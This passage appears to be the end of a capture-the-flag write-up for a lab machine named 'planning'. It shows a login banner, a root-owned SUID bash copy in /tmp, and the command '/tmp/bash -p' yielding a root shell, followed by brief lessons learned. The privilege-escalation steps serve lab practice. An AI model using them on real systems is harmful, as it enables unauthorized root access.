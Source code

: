 ```a
  
102 updates can be applied immediately.  
77 of these updates are standard security updates.  
To see these additional updates run: apt list --upgradable  
  
1 additional security update can be applied with ESM Apps.  
Learn more about enabling ESM Apps service at https://ubuntu.com/esm  
  
  
The list of available updates is more than a week old.  
To check for new updates run: sudo apt update  
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings  
  
Last login: Thu Aug 7 21:03:08 2025 from 10.10.14.173  
enzo@planning:~$
```
- From here, look at files with sticky bits and `root` ownership to see:
```a
-rwsr-xr-x 1 root root 1.4M Aug  7 19:59 /tmp/bash
```
- From here, it's easy to get root:
```a
enzo@planning:~$ /tmp/bash -p  
bash-5.2# whoami  
root
```

### Lessons Learned
- Essentially just check environment variables. 
- Really, just always use `linpeas.sh`.